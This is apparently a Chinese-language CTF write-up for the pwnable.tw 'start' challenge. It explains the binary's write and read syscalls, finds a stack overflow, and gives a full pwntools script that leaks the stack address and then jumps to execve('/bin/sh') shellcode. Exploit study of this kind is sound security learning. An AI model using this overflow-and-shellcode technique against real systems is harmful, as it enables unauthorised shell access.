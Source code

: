 checksec发现是32位程序，并且没开保护\
![image](https://user-images.githubusercontent.com/98165037/221330211-b003b251-962a-4fdf-a81b-d4a4dd6b3f25.png)\
拖进ida\
![image](https://user-images.githubusercontent.com/98165037/221330468-4407e7bd-98b8-4ca7-b5d7-3c9f70310021.png)\
asm应该就是汇编的意思\
![image](https://user-images.githubusercontent.com/98165037/221330602-f72371a7-af8d-4556-92d9-c5fd1d174d28.png)\
程序先调用了一个write函数，把esp作为函数的地址参数传入ecx中，即打印当前栈上的内容\
`mov  dl, 14h`是输出长度为14h的内容，后面也都有标注\
`mov  bl, 1`也就是函数的第一个参数，文件描述符fd为1，也就是往第1个文件（标准输出）中打印内容\
`mov  al, 4`是write函数的系统调用号为4\
最后`int  80h`应该就是最终执行了\
后面那个函数就没有write函数描述这么清晰，看了别的师傅的wp才知道是在执行read函数：\
没有向ecx中传值说明read函数的地址参数和write函数的一样，读入的数据存在write函数打印的内容所在的地址处，覆盖了打印的内容；\
`xor  ebx, ebx`即ebx=0，是指read函数的fd=0\
`mov  dl, 3Ch`是读入长度为3Ch的内容\
`mov  al, 3`read的系统调用号为3\
最后esp+14h让esp重新指回offset \_exit,下一步retn也就是pop eip去执行exit\
那么这里就存在一个栈溢出漏洞，可以覆盖到esp+14h这个返回地址\
所以思路是第一次覆盖返回地址为0x08048087，泄露出在offset_exit之前压栈的esp，然后第二次先输入14h的payload，覆盖返回地址为shellcode的地址，再加上shellcode\
要注意的点是这个是32位程序，接收地址的时候跟64位不太一样，一次性接收4个就行，但是正如某位师傅所言，`io.recv(4)`有时候会失效，改成`io.recv()[:4]`是可以的
```
from pwn import*
#context(os='linux',arch='amd64',log_level='debug')
io=remote('chall.pwnable.tw',10000)
#io=process("./start")
payload = b'a'*0x14+p32(0x08048087)
io.sendafter('CTF:',payload)
esp_addr = u32(io.recv()[:4])
print("esp = " + hex(esp_addr))
#io.recv(14)
shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
payload = b'a'*0x14 + p32(esp_addr + 0x14 ) + shellcode
io.send(payload)

io.interactive()
```
我一开始想不明白为什么shellcode的地址是esp_addr直接+14h就行，因为加上14h个a之后，不是还有shellcode的地址，不应该再+4h才是shellcode的地址吗，后来看了师傅的图，了解到`push  esp`
时压栈的内容不是当前格自己的地址（即内容为esp的地址），而是它前一格的地址，先取了esp的值，esp再+4h去指向新的栈顶去放入前一个esp的值，所以我泄露得到的esp本身就比开始读入的地址高4h
，所以就不用再额外+4h了\
师傅的图：\
![image](https://user-images.githubusercontent.com/98165037/221388777-8c07a9d1-7a76-495f-89c5-9a59e578447f.png)\
[参考的wp的地址](https://blog.csdn.net/qq_43935969/article/details/105717621?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522167690669416800215079040%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=167690669416800215079040&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2\~all\~sobaiduend\~default-1-105717621-null-null.142^v73^insert_down4,201^v4^add_ask,239^v2^insert_chatgpt&utm_term=pwnable.tw&spm=1018.2226.3001.4187) 
